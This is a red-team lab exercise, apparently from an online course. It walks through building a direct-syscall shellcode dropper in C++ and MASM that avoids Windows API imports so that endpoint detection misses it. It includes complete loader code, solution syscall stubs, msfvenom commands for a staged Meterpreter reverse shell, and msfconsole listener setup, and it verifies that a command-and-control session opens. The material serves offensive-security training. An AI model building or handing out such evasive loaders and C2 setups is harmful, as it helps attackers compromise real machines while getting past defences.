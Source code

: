 ## LAB Exercise 4:Direct Syscall Dropper
In this exercise we will make the second modification to the reference dropper, create the direct syscall dropper and implement the required syscalls or syscall stubs from each of the four native functions directly into the assembly (dropper). We call this the Low Level Direct Syscall Dropper, or LLDSC for short. 
![low_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235438881-e4af349a-0109-4d8e-80e2-730915c927f6.png)

## Exercise 4 Tasks:
### Creating the Direct Syscall Dropper 
1. Download the LLDSC Visual Studio POC from the Code section of this chapter.
2. Most of the code is already implemented in the POC. But take a look at the .asm file and add the missing assembler code for the remaining three native APIs following the scheme of the already implemented code for the NTallocateVirtualMemory native API. 
3. Create x64 calc shellcode with msfvenom, copy it to the POC, compile it and run it for the first time. Check that the calc spawns correctly. 
4. Create a staged x64 meterpreter shellcode with msfvenom and copy it to the POC or replace the calc shellcode with it.  
5. Compile the POC as an x64 release. 
6. Create and run a staged x64 meterpreter listener using msfconsole.
7. Run your compiled .exe and check that a stable command and control channel opens. 
### Analysing the Direct Syscall Dropper
8. Use the Visual Studio **dumpbin** tool to analyse the dropper. Is the result what you expected?  
9. Use the **API Monitor** tool to analyse the compiled low level dropper in the context of the four APIs used. Is the result what you expected? 
10. Use the **x64dbg** debugger to analyse the compiled low level dropper: from which module and location are the syscalls of the four APIs used executed? Is the result what you expected? 
11. Use Process Hacker to analyse the call stack of the direct syscall dropper.


## Visual Studio
To create the Low-Level-Dropper project, follow the procedure of the High-Level-Dropper exercise, take a look to follow the necessary steps.
The code works as follows, shellcode declaration is the same as before in both droppers.
<details>
    
```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
    
</details>


The main code of the direct syscall dropper looks like the following and is already implemented in the POC. 
<details>
<summary>Code</summary>
    
```
#include <iostream>
#include <Windows.h>
#include "syscalls.h"

int main() {
    // Insert Meterpreter shellcode
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);


    // Return 0 as the main function exit code
    return 0;
}
```
    
</details>

    
    
### Header File
Unlike the medium level dropper (NTAPIs), we no longer ask ntdll.dll for the function definition of the native APIs we are using. But we still want to use the native functions, so we need to define or implement the structure for all four native functions in a header file. In this case the header file is called syscalls.h and must also be included in the main code. All the structures are already implemented in the direct syscall dropper POC. If you want to check them manually, you should be able to find them in the Microsoft documentation, e.g. for [NtWriteVirtualMemory](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory).

<details>
<summary>Code</summary>

```
#ifndef _SYSCALLS_H  // If _SYSCALLS_H is not defined then define it and the contents below. This is to prevent double inclusion.
#define _SYSCALLS_H  // Define _SYSCALLS_H

#include <windows.h>  // Include the Windows API header

#ifdef __cplusplus   // If this header file is included in a C++ file, then this section will be true
extern "C" {         // This is to ensure that the names of the functions are not mangled by the C++ compiler and are in C linkage format
#endif

    // The type NTSTATUS is typically defined in the Windows headers as a long.
    typedef long NTSTATUS;  // Define NTSTATUS as a long
    typedef NTSTATUS* PNTSTATUS;  // Define a pointer to NTSTATUS

    // Declare the function prototype for NtAllocateVirtualMemory
    extern NTSTATUS NtAllocateVirtualMemory(
        HANDLE ProcessHandle,    // Handle to the process in which to allocate the memory
        PVOID* BaseAddress,      // Pointer to the base address
        ULONG_PTR ZeroBits,      // Number of high-order address bits that must be zero in the base address of the section view
        PSIZE_T RegionSize,      // Pointer to the size of the region
        ULONG AllocationType,    // Type of allocation
        ULONG Protect            // Memory protection for the region of pages
    );

    // Declare the function prototype for NtWriteVirtualMemory
    extern NTSTATUS NtWriteVirtualMemory(
        HANDLE ProcessHandle,     // Handle to the process in which to write the memory
        PVOID BaseAddress,        // Pointer to the base address
        PVOID Buffer,             // Buffer containing data to be written
        SIZE_T NumberOfBytesToWrite, // Number of bytes to be written
        PULONG NumberOfBytesWritten // Pointer to the variable that receives the number of bytes written
    );

    // Declare the function prototype for NtCreateThreadEx
    extern NTSTATUS NtCreateThreadEx(
        PHANDLE ThreadHandle,        // Pointer to a variable that receives a handle to the new thread
        ACCESS_MASK DesiredAccess,   // Desired access to the thread
        PVOID ObjectAttributes,      // Pointer to an OBJECT_ATTRIBUTES structure that specifies the object's attributes
        HANDLE ProcessHandle,        // Handle to the process in which the thread is to be created
        PVOID lpStartAddress,        // Pointer to the application-defined function of type LPTHREAD_START_ROUTINE to be executed by the thread
        PVOID lpParameter,           // Pointer to a variable to be passed to the thread
        ULONG Flags,                 // Flags that control the creation of the thread
        SIZE_T StackZeroBits,        // A pointer to a variable that specifies the number of high-order address bits that must be zero in the stack pointer
        SIZE_T SizeOfStackCommit,    // The size of the stack that must be committed at thread creation
        SIZE_T SizeOfStackReserve,   // The size of the stack that must be reserved at thread creation
        PVOID lpBytesBuffer          // Pointer to a variable that receives any output data from the system
    );

    // Declare the function prototype for NtWaitForSingleObject
    extern NTSTATUS NtWaitForSingleObject(
        HANDLE Handle,          // Handle to the object to be waited on
        BOOLEAN Alertable,      // If set to TRUE, the function returns when the system queues an I/O completion routine or APC for the thread
        PLARGE_INTEGER Timeout  // Pointer to a LARGE_INTEGER that specifies the absolute```c
        // or relative time at which the function should return, regardless of the state of the object
    );

#ifdef __cplusplus  // End of the 'extern "C"' block if __cplusplus was defined
}
#endif

#endif // _SYSCALLS_H  // End of the _SYSCALLS_H definition
  
```
    
</details>

### Assembly Instructions
Furthermore, we do not want to ask ntdll.dll for the syscall stub of the native functions we use, instead we want to manually implement the necessary assembly code into the assembly itself. As mentioned above, instead of using a tool to create the assembly instructions, we will manually implement the necessary code in our direct syscall POC for the best learning experience. To do this, you will find a file called ``syscalls.asm`` in the direct syscall dropper POC which contains part of the assembly code. The code needed to implement the syscall stub in the syscalls.asm file looks like this and can be used as a template to add the syscall stub for the other three missing native APIs ``NtWriteVirtualMemory``, ``NtCreateThreadEx``` and ``NtWaitForSingleObject``. It is one of your tasks to complete the missing assembly code.

<details>
<summary>Code</summary>

```
.CODE  ; Start the code section
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP     
END  ; End of the module    
```
    
</details>

<details>
    <summary>Solution</summary>

```
.CODE  ; Start the code section
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP                     	; End of the procedure.

; Similar procedures for NtWriteVirtualMemory syscalls
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, 3AH
    syscall
    ret
NtWriteVirtualMemory ENDP

; Similar procedures for NtCreateThreadEx syscalls
NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, 0C2h
    syscall
    ret
NtCreateThreadEx ENDP

; Similar procedures for NtWaitForSingleObject syscalls
NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, 4
    syscall
    ret
NtWaitForSingleObject ENDP

END  ; End of the module
```
    
</details>

    
    
### Microsoft Macro Assembler (MASM)
We have already implemented all the necessary assembler code in the syscalls.asm file. But in order for the code to be interpreted correctly within the direct syscall POC, we need to do a few things. These steps are not done in the downloadable POC and must be done manually. First, we need to enable the Microsoft Macro Assembler (.masm) option in Build Dependencies/Build Customisations.
<details>
 
<p align="center">
<img width="1278" alt="image" src="https://user-images.githubusercontent.com/50073731/235457590-371f3519-b7cf-483d-9c1c-6bfd6368be42.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235457782-780d2136-30d7-4e87-a022-687ed2557b33.png">
</details>

Furthermore we need to set the Item Type of the syscalls.asm file to Microsoft Macro Assembler, otherwise we will get an unresolved symbol error in the context of the native APIs used in the direct syscall dropper. Furthermore we set Excluded from Build to no and Content to yes. 
<details>
<p align="center">
<img width="950" alt="image" src="https://user-images.githubusercontent.com/50073731/235471947-4bcd23fc-5093-4f4d-adc8-eb3ef36f139f.png">    
<img width="1237" alt="image" src="https://user-images.githubusercontent.com/50073731/235458968-e330799e-51ff-46bf-97ab-c7d3be7ea079.png">
<img width="778" alt="image" src="https://user-images.githubusercontent.com/50073731/235459219-4387dc48-56f8-481c-b978-1b786843a836.png">
</details>     

    

## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the Low-Level-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our Low-Level-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled Low-Level-Dropper.exe. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>
        

    
## Low-Level-Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports low_level.exe
```
</details>    

<details>
    <summary>Solution</summary>  
    
**No imports** from the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="1023" alt="image" src="https://user-images.githubusercontent.com/50073731/235473764-c85ccc73-a1cb-403d-8162-172146375d96.png">
</p>
</details>   
    
    
## Low-Level-Dropper analysis: API-Monitor
For a correct check, it is necessary to filter to the correct APIs. Only by providing the correct Windows APIs and the corresponding native APIs, we can be sure that there are no more transitions in the context of the used APIs in our Medium-Level-Dropper. We filter on the following API calls:
- VirtualAlloc
- NtAllocateVirtualMemory
- WriteProcessMemory
- NtWriteVirtualMemory
- CreateThread
- NtCreateThreadEx
- WaitForSingleObject
- NtWaitForSingleObject

<details>
    <summary>Solution</summary>    
If everything was done correctly, you could see that the four used Windows APIs and their native APIs are no longer imported from kernel32.dll and ntdll.dll to the Low-Level-Dropper.exe.
This result was expected and is correct because our Low-Level-Dropper has directly implemented the necessary syscalls or syscall stubs for the respective native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject.
<p align="center">
<img width="595" alt="image" src="https://user-images.githubusercontent.com/50073731/235480936-df805736-aad8-44a7-8bec-f8563735d1d2.png">
</p>
</details>    

## Low-Level-Dropper analysis: x64dbg 
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, now we have not implemented system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your Low-Level-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight your **Low-Level-Dropper.exe**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. Compared to the High-Level-Dropper and the Medium-Level-Dropper we can see that the symbols for the used native APIs are implemented directly in the dropper itself and not imported from the ntdll.dll.
    
<p align="center">    
<img width="979" alt="image" src="https://user-images.githubusercontent.com/50073731/235481553-012459f5-1284-44ed-b3ed-2b04bfcccd3b.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are no longer 
imported from the .text section in the ntdll.dll module. Instead the syscalls or syscalls stubs are directly implemtented into the .text section of the Low-Level-Dropper itself.
    
<p align="center">    
<img width="990" alt="image" src="https://user-images.githubusercontent.com/50073731/235482389-35cd8c12-593e-4089-b082-8eaf2ba6636a.png"></p>    
</details>


## Summary:
- Made transition from medium to low level or from Native APIs to direct syscalls
- Dropper imports no longer Windows APIs from kernel32.dll
- Dropper imports no longer Native APIs from ntdll.dll
- Syscalls or syscall stubs are "implemented" directly into .text section of .exe

